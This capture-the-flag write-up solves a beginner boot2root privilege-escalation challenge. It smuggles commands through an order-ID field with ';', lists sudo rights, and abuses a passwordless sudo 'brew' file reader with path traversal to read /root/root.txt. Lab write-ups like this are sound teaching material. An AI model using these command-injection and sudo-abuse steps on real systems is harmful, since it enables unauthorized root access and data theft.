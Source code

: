 # Description
```
 Boot2root

Difficulty: Beginner
Author: Quack

Now that you have access to their system, is there any way you can escalate your privileges and read the final flag?

The root flag is located in /root/root.txt.

Note: This challenge requires you have solved Caffeine (User).

```
# Attachments
<img width="1856" height="1515" alt="image" src="https://github.com/user-attachments/assets/199452a9-27cb-404f-83d2-088fd49063ef" />

# Solution
Just like in Caffeine (User) problem, we test other commands. \
The description suggests us to use sudo commands. \
We check which sudo commands are available by typing:
```shell
; sudo -l
```
This displays the result:
```
Matching Defaults entries for www-data on ctf-caffeine-user-5be946dd5cca5dd4-7db9f4547d-gs94q:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ctf-caffeine-user-5be946dd5cca5dd4-7db9f4547d-gs94q:
    (ALL) NOPASSWD: /usr/local/bin/brew
```

We go to this folder and run brew. This displays a message:
```
Order Status for #;../../../usr/local/bin/brew;

   ( (
    ) )
   ( (
  .-'-.
  |•.•|  
  |   |  
  '~~~'  
   JavaJack's Regular Brew

  Usage: brew [file]
  Reads files with coffee-powered vision

No order found with ID #;../../../usr/local/bin/brew; 
```

This suggests that we can read /root/root.txt using sudo brew. \
Navigate to /root and read it.
```
;../../../usr/local/bin/brew; sudo brew ../../../root/root.txt;
```
